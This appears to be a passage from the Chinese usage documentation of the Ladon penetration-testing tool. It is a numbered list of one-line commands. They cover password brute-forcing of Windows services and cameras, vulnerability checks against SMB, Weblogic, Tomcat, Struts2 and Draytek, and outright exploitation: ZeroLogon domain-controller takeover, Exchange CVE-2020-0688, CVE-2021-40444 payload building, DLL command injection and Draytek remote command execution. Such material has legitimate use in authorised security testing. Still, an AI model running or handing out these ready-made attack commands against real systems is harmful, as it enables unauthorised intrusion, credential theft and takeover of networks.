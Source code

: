 ```
##### 052 139端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan

##### 053 5985端口Winrm协议Windows密码爆破
Ladon 192.168.1.8/24 WinrmScan

##### 054 网络摄像头密码爆破(内置默认密码)
Ladon 192.168.1.8/24 DvrScan


### 漏洞检测/Poc
##### 055 SMB漏洞检测(CVE-2017-0143/CVE-2017-0144)
Ladon 192.168.1.8/24 MS17010

##### 056 SMBGhost漏洞检测 CVE-2020-0796
Ladon 192.168.1.8/24 SMBGhost

##### 057 Weblogic漏洞检测(CVE-2019-2725/CVE-2018-2894)
Ladon 192.168.1.8/24 WeblogicPoc

##### 058 PhpStudy后门检测(phpstudy 2016/phpstudy 2018)
Ladon 192.168.1.8/24 PhpStudyPoc

##### 059 ActiveMQ漏洞检测(CVE-2016-3088)
Ladon 192.168.1.8/24 ActivemqPoc

##### 060 Tomcat漏洞检测(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatPoc

##### 061 Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc

##### 062 DraytekPoc CVE-2020-8515漏洞检测、Draytek版本探测、弱口令检测
Ladon 192.168.1.8 DraytekPoc
Ladon 192.168.1.8/24 DraytekPoc


### 漏洞利用/Exploit
##### 063 Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp

##### 064 Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp

##### 065 Windows 0day漏洞通用DLL注入执行CMD生成器(DLL仅5KB)
Ladon CmdDll x86 calc
Ladon CmdDll x64 calc
Ladon CmdDll b64x86 YwBhAGwAYwA=
Ladon CmdDll b64x64 YwBhAGwAYwA=

##### 066 CVE-2021-40444 微软IE/Office 0day漏洞
Ladon CVE-2021-40444 MakeCab poc.dll
Ladon CVE-2021-40444 MakeHtml http://192.168.1.8

##### 067 DraytekExp CVE-2020-8515远程执行命令EXP
Ladon DraytekExp http://192.168.1.8 whoami

##### 068 ZeroLogon CVE-2020-1472域控提权(密码置空)
Ladon ZeroLogon dc.k8gege.org

##### 069 CVE-2020-0688 Exchange序列化漏洞(.net 4.0)
Ladon cve-2020-0688 192.168.1.142 Administrator K8gege520

```